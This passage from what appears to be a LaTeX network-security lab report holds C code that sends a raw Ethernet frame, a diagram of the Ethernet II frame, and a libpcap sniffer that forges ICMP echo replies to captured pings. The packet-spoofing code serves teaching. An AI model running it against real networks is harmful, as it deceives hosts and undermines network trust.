  /*target is another host*/
  socket_address.sll_pkttype  = PACKET_OTHERHOST;
  
  /*address length*/
  socket_address.sll_halen    = ETH_ALEN;		
  /*MAC - begin*/
  socket_address.sll_addr[0]  = dest_mac[0];		
  socket_address.sll_addr[1]  = dest_mac[1];		
  socket_address.sll_addr[2]  = dest_mac[2];
  socket_address.sll_addr[3]  = dest_mac[3];
  socket_address.sll_addr[4]  = dest_mac[4];
  socket_address.sll_addr[5]  = dest_mac[5];
  /*MAC - end*/
  socket_address.sll_addr[6]  = 0x00; /* Not used */
  socket_address.sll_addr[7]  = 0x00; /* Not used */
  
  
  /*set the frame header*/
  memcpy((void*)buffer, (void*)dest_mac, ETH_ALEN);
  memcpy((void*)(buffer+ETH_ALEN), (void*)src_mac, ETH_ALEN);
  eh->h_proto = 0x00; /* Ethernet Type Data */
  /*fill the frame with some data*/
  int j=0;
  for (j = 0; j < 1500; j++) {
    data[j] = (unsigned char)((int) (255.0*rand()/(RAND_MAX+1.0)));
  }
  
  s = socket(AF_PACKET, SOCK_RAW, htons(ETH_P_ALL));
  if (s == -1) {
    perror("raw socket");
    exit(1);
  }
  
  /*send the packet*/
  send_result = sendto(s, buffer, ETH_FRAME_LEN, 0, (struct sockaddr*)&socket_address, sizeof(socket_address));
  if (send_result == -1) {
    perror("sendto");
    exit(1);
  }
  return 0;
}
\end{minted}
\restoregeometry

\subsection{Explanation (For Selected Parts) - Appendix B}
To construct the Ethernet Frame, it is crucial to know the structure of the frame. The current frame type that is used to transmit information is Ethernet II. The structure for this frame is shown in the figure below and can be referenced with greater detail at Vector E-Learning\footnote{\href{https://elearning.vector.com/index.php?seite=vl_automotive_ethernet_introduction_ko\&root=835866\&wbt_ls_kapitel_id=1603202\&wbt_ls_seite_id=1603211\&d=yes}{Vector E-Learning: https://elearning.vector.com/index.php?seite=vl\_automotive\_ethernet\_\\introduction\_ko\&root=835866\&wbt\_ls\_kapitel\_id=1603202\&wbt\_ls\_seite\_id=1603211\&d=yes}}. (*Note: VLAN Tag has been omitted as it is not relevant to our current task)

\begin{figure}[H]
			\centering
			\tikzset{>=stealth'}
			
\begin{tikzpicture}
			%First Row
			\draw(-1,0) rectangle node[text width=2.8cm, align=center]{\footnotesize Destination\\MAC Address} (1.8,-1.5);
			\draw(1.8,0) rectangle node[align=center, text width=2.8cm]{\footnotesize Source\\MAC Address} (4.6,-1.5);
			\draw(4.6,0) rectangle node[align=center,text width=1.2cm]{\footnotesize Type\\Field} (5.8,-1.5);
			\draw(5.8,0) rectangle node{\footnotesize Data} (9,-1.5);
			\draw(9,0) rectangle node{\footnotesize Pad} (9.9,-1.5);
			\draw(9.9,0) rectangle node[text width=2cm, align=center]{\footnotesize CRC\\Checksum} (12,-1.5);
			
			\draw(-1,0) -- (-1,1.8);
			\draw(12,0) -- (12,1.8);
			\draw[<->](-1,1.5)node[yshift=-0.27cm,xshift=3.9cm,text width=7cm]{Ethernet Frame\\\footnotesize Min length: 64 Bytes\\ Max length: 1518 Bytes}-- (12,1.5);
			
			\draw(5.8,0) -- (5.8,1);
			\draw(9.9,0) -- (9.9,1);
			\draw[<->](5.8,0.7)node[yshift=0.01cm,xshift=2.8cm,text width=5cm]{Payload\\\footnotesize Min length: 46 Bytes}-- (9.9,0.7);
			
			\draw(-1,-1.5) -- (-1,-2.3);
			\draw(1.8,-1.5) -- (1.8,-2.3);
			\draw(4.6,-1.5) -- (4.6,-2.3);
			\draw(5.8,-1.5) -- (5.8,-2.3);
			\draw(9,-1.5) -- (9,-2.3);
			\draw(9.9,-1.5) -- (9.9,-2.3);
			\draw(12,-1.5) -- (12,-2.3);
			
			\draw[<->](-1,-2) --node[yshift=-0.4cm]{6 Bytes} (1.8,-2);
			\draw[<->](4.6,-2) --node[yshift=-0.4cm]{6 Bytes} (1.8,-2);
			\draw[<->](4.6,-2) --node[yshift=-0.7cm,align=center, text width=1.2cm]{2\\Bytes} (5.8,-2);
			\draw[<->](9,-2) --node[yshift=-0.4cm]{0 -- 1500 Bytes} (5.8,-2);
			\draw[<->](9.9,-2) --node[yshift=-0.4cm]{4 Bytes} (12,-2);
			\draw[<-](9.45,-1.5) -- (9.45,-4.6);
			\draw[->](9.45,-4.6) -- (9.1,-4.6)node[text width=5cm,align=center,xshift=-1.6cm]{Varies to ensure minimum length\\ of payload or Ethernet frame};
			\end{tikzpicture}
			\caption{Ethernet II Frame}
				\label{fig:EthFrame}
			\end{figure}
			\newpage
			\newgeometry{left=2cm,top=1cm,bottom=2cm}
			\subsection{Sniffing \& Spoofing}
			\label{ch:SniffSpoof}
			\begin{minted}[linenos,breaklines]{C}
/* Brandon - Fixed ICMP Checksum problem (When data = 0)
	   - Fixed ICMP Response for Sequence and ID fields
	   - Fixed automatic ICMP response with src and dst IP */
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <netdb.h>
#include <pcap.h>
#include <ctype.h>
#include <errno.h>

#include <sys/types.h>
#include <sys/stat.h>
#include <sys/socket.h>

#include <netinet/in_systm.h>
#include <netinet/in.h>
#include <netinet/ip.h>
#include <netinet/udp.h>
#include <netinet/ip_icmp.h>
#include <netinet/tcp.h>

#include <arpa/inet.h>

//#define SRC_ADDR "192.168.142.153"
//#define DST_ADDR "172.16.87.254"
//#define ICMPID 0x0
//#define ICMPSEQ 1
#define APP_NAME "sniffex"

/* default snap length (maximum bytes per packet to capture) */
#define SNAP_LEN 1518

/* ethernet headers are always exactly 14 bytes [1] */
#define SIZE_ETHERNET 14

/* Ethernet addresses are 6 bytes */
#define ETHER_ADDR_LEN	6

/* Ethernet header */
struct sniff_ethernet {
        u_char  ether_dhost[ETHER_ADDR_LEN];    /* destination host address */
        u_char  ether_shost[ETHER_ADDR_LEN];    /* source host address */
        u_short ether_type;                     /* IP? ARP? RARP? etc */
};

/* IP header */
struct sniff_ip {
        u_char  ip_vhl;                 /* version << 4 | header length >> 2 */
        u_char  ip_tos;                 /* type of service */
        u_short ip_len;                 /* total length */
        u_short ip_id;                  /* identification */
        u_short ip_off;                 /* fragment offset field */
        #define IP_RF 0x8000            /* reserved fragment flag */
        #define IP_DF 0x4000            /* dont fragment flag */
        #define IP_MF 0x2000            /* more fragments flag */
        #define IP_OFFMASK 0x1fff       /* mask for fragmenting bits */
        u_char  ip_ttl;                 /* time to live */
        u_char  ip_p;                   /* protocol */
        u_short ip_sum;                 /* checksum */
        struct  in_addr ip_src,ip_dst;  /* source and dest address */
};
#define IP_HL(ip)               (((ip)->ip_vhl) & 0x0f)
#define IP_V(ip)                (((ip)->ip_vhl) >> 4)

/* TCP header */
typedef u_int tcp_seq;

struct sniff_tcp {
        u_short th_sport;               /* source port */
        u_short th_dport;               /* destination port */
        tcp_seq th_seq;                 /* sequence number */
        tcp_seq th_ack;                 /* acknowledgement number */
        u_char  th_offx2;               /* data offset, rsvd */
#define TH_OFF(th)      (((th)->th_offx2 & 0xf0) >> 4)
        u_char  th_flags;
        #define TH_FIN  0x01
        #define TH_SYN  0x02
        #define TH_RST  0x04
        #define TH_PUSH 0x08
        #define TH_ACK  0x10
        #define TH_URG  0x20
        #define TH_ECE  0x40
        #define TH_CWR  0x80
        #define TH_FLAGS        (TH_FIN|TH_SYN|TH_RST|TH_ACK|TH_URG|TH_ECE|TH_CWR)
        u_short th_win;                 /* window */
        u_short th_sum;                 /* checksum */
        u_short th_urp;                 /* urgent pointer */
};

/* ICMP header */
struct sniff_icmp
{
  u_int8_t type;		/* message type */
  u_int8_t code;		/* type sub-code */
  u_int16_t checksum;
  union
  {
    struct
    {
      u_int16_t	id;
      u_int16_t	sequence;
    } echo;			/* echo datagram */
    u_int32_t	gateway;	/* gateway address */
    struct
    {
      u_int16_t	__unused;
      u_int16_t	mtu;
    } frag;			/* path mtu discovery */
  } un;
};


void
got_packet(u_char *args, const struct pcap_pkthdr *header, const u_char *packet);

void
print_payload(const u_char *payload, int len);

void
print_hex_ascii_line(const u_char *payload, int len, int offset);

void
print_app_usage(void);

/*
 * print help text
 */
void
print_app_usage(void)
{

	printf("Usage: %s [interface]\n", APP_NAME);
	printf("\n");
	printf("Options:\n");
	printf("    interface    Listen on <interface> for packets.\n");
	printf("\n");

return;
}

/*
 * print data in rows of 16 bytes: offset   hex   ascii
 *
 * 00000   47 45 54 20 2f 20 48 54  54 50 2f 31 2e 31 0d 0a   GET / HTTP/1.1..
 */
void
print_hex_ascii_line(const u_char *payload, int len, int offset)
{

	int i;
	int gap;
	const u_char *ch;

	/* offset */
	printf("%05d   ", offset);
	
	/* hex */
	ch = payload;
	for(i = 0; i < len; i++) {
		printf("%02x ", *ch);
		ch++;
		/* print extra space after 8th byte for visual aid */
		if (i == 7)
			printf(" ");
	}
	/* print space to handle line less than 8 bytes */
	if (len < 8)
		printf(" ");
	
	/* fill hex gap with spaces if not full line */
	if (len < 16) {
		gap = 16 - len;
		for (i = 0; i < gap; i++) {
			printf("   ");
		}
	}
	printf("   ");
	
	/* ascii (if printable) */
	ch = payload;
	for(i = 0; i < len; i++) {
		if (isprint(*ch))
			printf("%c", *ch);
		else
			printf(".");
		ch++;
	}

	printf("\n");

return;
}

/*
 * print packet payload data (avoid printing binary data)
 */
void
print_payload(const u_char *payload, int len)
{

	int len_rem = len;
	int line_width = 16;			/* number of bytes per line */
	int line_len;
	int offset = 0;					/* zero-based offset counter */
	const u_char *ch = payload;

	if (len <= 0)
		return;

	/* data fits on one line */
	if (len <= line_width) {
		print_hex_ascii_line(ch, len, offset);
		return;
	}

	/* data spans multiple lines */
	for ( ;; ) {
		/* compute current line length */
		line_len = line_width % len_rem;
		/* print line */
		print_hex_ascii_line(ch, line_len, offset);
		/* compute total remaining */
		len_rem = len_rem - line_len;
		/* shift pointer to remaining bytes to print */
		ch = ch + line_len;
		/* add offset */
		offset = offset + line_width;
		/* check if we have line width chars or less */
		if (len_rem <= line_width) {
			/* print last line and get out */
			print_hex_ascii_line(ch, len_rem, offset);
			break;
		}
	}

return;
}

/*
 * dissect/print packet
 */
void
got_packet(u_char *args, const struct pcap_pkthdr *header, const u_char *packet)
{

	static int count = 1;                   /* packet counter */
	
	/* declare pointers to packet headers */
	const struct sniff_ethernet *ethernet;  /* The ethernet header [1] */
	const struct sniff_ip *ip;              /* The IP header */
	const struct sniff_tcp *tcp;            /* The TCP header */
	const char *payload;                    /* Packet payload */
	const struct sniff_icmp *icmp;

	int size_ip;
	int size_tcp;
	int size_payload;
	
	printf("\nPacket number %d:\n", count);
	count++;
	
	/* define ethernet header */
	ethernet = (struct sniff_ethernet*)(packet);
	
	/* define/compute ip header offset */
	ip = (struct sniff_ip*)(packet + SIZE_ETHERNET);
	size_ip = IP_HL(ip)*4;
	if (size_ip < 20) {
		printf("   * Invalid IP header length: %u bytes\n", size_ip);
		return;
	}

	/* Get ICMP header if protocol is ICMP is identified later */
	icmp = (struct sniff_icmp*)(packet + SIZE_ETHERNET + size_ip);
	//printf("%x\n",icmp->un.echo.id);
	//printf("%x\n",ntohs(icmp->un.echo.sequence));

	/* print source and destination IP addresses */
	printf("       From: %s\n", inet_ntoa(ip->ip_src));
	printf("         To: %s\n", inet_ntoa(ip->ip_dst));

	/* determine protocol */	
	switch(ip->ip_p) {
		case IPPROTO_TCP:
			printf("   Protocol: TCP\n");
			break;
		case IPPROTO_UDP:
			printf("   Protocol: UDP\n");
			return;
		case IPPROTO_ICMP:
			printf("   Protocol: ICMP\n");
			sendPacket(ip->ip_src,ip->ip_dst,icmp);
			return;
		case IPPROTO_IP:
			printf("   Protocol: IP\n");
			return;
		default:
			printf("   Protocol: unknown\n");
			return;
	}
	
	/*
	 *  OK, this packet is TCP.
	 */
	
	/* define/compute tcp header offset */
	tcp = (struct sniff_tcp*)(packet + SIZE_ETHERNET + size_ip);
	size_tcp = TH_OFF(tcp)*4;
	if (size_tcp < 20) {
		printf("   * Invalid TCP header length: %u bytes\n", size_tcp);
		return;
	}
	
	printf("   Src port: %d\n", ntohs(tcp->th_sport));
	printf("   Dst port: %d\n", ntohs(tcp->th_dport));
	
	/* define/compute tcp payload (segment) offset */
	payload = (u_char *)(packet + SIZE_ETHERNET + size_ip + size_tcp);
	
	/* compute tcp payload (segment) size */
	size_payload = ntohs(ip->ip_len) - (size_ip + size_tcp);
	
	/*
	 * Print payload data; it might be binary, so don't just
	 * treat it as a string.
	 */
	if (size_payload > 0) {
		printf("   Payload (%d bytes):\n", size_payload);
		print_payload(payload, size_payload);
	}

return;
}


/* Referenced from https://www.tenouk.com/Module43a.html */
unsigned short csum(unsigned short *buf, int nwords)
{
        unsigned long sum;
        for(sum=0; nwords>0; nwords--)
                sum += *buf++;
        sum = (sum >> 16) + (sum &0xffff);
        sum += (sum >> 16);
        return (unsigned short)(~sum);
}

int sendPacket(struct in_addr src, struct in_addr dst, struct sniff_icmp *icmpun)
{
/* Used for debugging */
//printf("%s\n", inet_ntoa(src));
//printf("%s\n", inet_ntoa(dst));
//printf("\n%x\n",icmpun->un.echo.id);
//printf("%x\n",ntohs(icmpun->un.echo.sequence));

  struct ip ip;
  struct icmp icmp;
  int sd;
  const int on = 1;
  struct sockaddr_in sin;
  u_char* packet;

  // Allocate some space for our packet:
  packet = (u_char *)malloc(60);
  
  /* IP Layer header construct: Referenced from https://www.tenouk.com/Module42.html */

  ip.ip_hl = 0x5; /* Header length (in 32 bits), 160 bits w/o options: 160/32 */
  ip.ip_v = 0x4;  /* IPv4 */
  ip.ip_tos = 0x0; /* Type of Service */
  ip.ip_len = htons(60); /* Length of entire packet in bytes */
  ip.ip_id = 0; /* Identification field to reassemble fragments of a datagram */
  ip.ip_off = 0x0; /* Fragmentation, set to 0 since no fragments */
  ip.ip_ttl = 64; /* Time To Live */
  ip.ip_p = IPPROTO_ICMP; /* Protocol Number, RFC 1700 */
  ip.ip_sum = 0x0; /* Exclude when calculating checksum first */
  ip.ip_src.s_addr = inet_addr(inet_ntoa(dst)); //inet_addr(src); /* Source IP */
  ip.ip_dst.s_addr = inet_addr(inet_ntoa(src)); //inet_addr(dst); /* Destination IP */
  ip.ip_sum = csum((unsigned short *)&ip, sizeof(ip)); /* Checksum calculation */
  memcpy(packet, &ip, sizeof(ip)); /* Copy header into packet */
  
  
  //ICMP header construct, Reference RFC 792
  
  icmp.icmp_type = ICMP_ECHOREPLY; /* Type 0 for echo */
  icmp.icmp_code = 0; /* No code for echo/reply, leave as 0 */
  icmp.icmp_id = icmpun->un.echo.id; /* Random identifier to match echos & replies */
  icmp.icmp_seq = icmpun->un.echo.sequence; /* Random sequence number to match echos & replies */
  icmp.icmp_cksum = 0; /* Exclude when calculating checksum first */
  icmp.icmp_cksum = csum((unsigned short *)&icmp, sizeof(&icmp)); /* Checksum Calculation */
  memcpy(packet + 20, &icmp, 8); /* Append the ICMP header to the packet at offset 20 */
  
  /* Create raw socket:*/
  if ((sd = socket(AF_INET, SOCK_RAW, IPPROTO_RAW)) < 0) {
    perror("raw socket");
    exit(1);
  }
  
  /* Prevent kernel from filling up packet with its information*/
  if (setsockopt(sd, IPPROTO_IP, IP_HDRINCL, &on, sizeof(on)) < 0) {
    perror("setsockopt");
    exit(1);
  }
  
  /* Specify destination in kernel to send the raw datagram. We fill in a struct in_addr with the desired destination IP address and pass this structure to the sendto(2) or sendmsg(2) system calls:*/
  
  memset(&sin, 0, sizeof(sin));
  sin.sin_family = AF_INET;
  sin.sin_addr.s_addr = ip.ip_dst.s_addr;
  
  /*send(2) system call cannot be used as the socket is not a "connected" type of socket. A destination is needed to send the raw IP datagram. sendto(2) and sendmsg(2) system calls are designed to handle this:*/
  if (sendto(sd, packet, 60, 0, (struct sockaddr *)&sin, 
	     sizeof(struct sockaddr)) < 0)  {
    perror("sendto");
    exit(1);
  }
  
  return 0;
}

int main(int argc, char **argv)
{

	char *dev = NULL;			/* capture device name */
	char errbuf[PCAP_ERRBUF_SIZE];		/* error buffer */
	pcap_t *handle;				/* packet capture handle */

	char filter_exp[] = "icmp and src host 192.168.43.154";		/* filter expression [3] */
	struct bpf_program fp;			/* compiled filter program (expression) */
	bpf_u_int32 mask;			/* subnet mask */
	bpf_u_int32 net;			/* ip */
	int num_packets = 10;			/* number of packets to capture */

	/* check for capture device name on command-line */
	if (argc == 2) {
		dev = argv[1];
	}
	else if (argc > 2) {
		fprintf(stderr, "error: unrecognized command-line options\n\n");
		print_app_usage();
		exit(EXIT_FAILURE);
	}
	else {
		/* find a capture device if not specified on command-line */
		dev = pcap_lookupdev(errbuf);
		if (dev == NULL) {
			fprintf(stderr, "Couldn't find default device: %s\n",
			    errbuf);
			exit(EXIT_FAILURE);
		}
	}
	
	/* get network number and mask associated with capture device */
	if (pcap_lookupnet(dev, &net, &mask, errbuf) == -1) {
		fprintf(stderr, "Couldn't get netmask for device %s: %s\n",
		    dev, errbuf);
		net = 0;
		mask = 0;
	}

	/* print capture info */
	printf("Device: %s\n", dev);
	printf("Number of packets: %d\n", num_packets);
	printf("Filter expression: %s\n", filter_exp);

	/* open capture device */
	handle = pcap_open_live(dev, SNAP_LEN, 1, 1000, errbuf);
	if (handle == NULL) {
		fprintf(stderr, "Couldn't open device %s: %s\n", dev, errbuf);
		exit(EXIT_FAILURE);
	}

	/* make sure we're capturing on an Ethernet device [2] */
	if (pcap_datalink(handle) != DLT_EN10MB) {
		fprintf(stderr, "%s is not an Ethernet\n", dev);
		exit(EXIT_FAILURE);
	}

	/* compile the filter expression */
	if (pcap_compile(handle, &fp, filter_exp, 0, net) == -1) {
		fprintf(stderr, "Couldn't parse filter %s: %s\n",
		    filter_exp, pcap_geterr(handle));
		exit(EXIT_FAILURE);
	}

	/* apply the compiled filter */
	if (pcap_setfilter(handle, &fp) == -1) {
		fprintf(stderr, "Couldn't install filter %s: %s\n",
		    filter_exp, pcap_geterr(handle));
		exit(EXIT_FAILURE);
	}

	/* now we can set our callback function */
	pcap_loop(handle, num_packets, got_packet, NULL);

	/* cleanup */
	pcap_freecode(&fp);
	pcap_close(handle);

	printf("\nCapture complete.\n");

return 0;
}
			\end{minted}
			\restoregeometry
\end{document}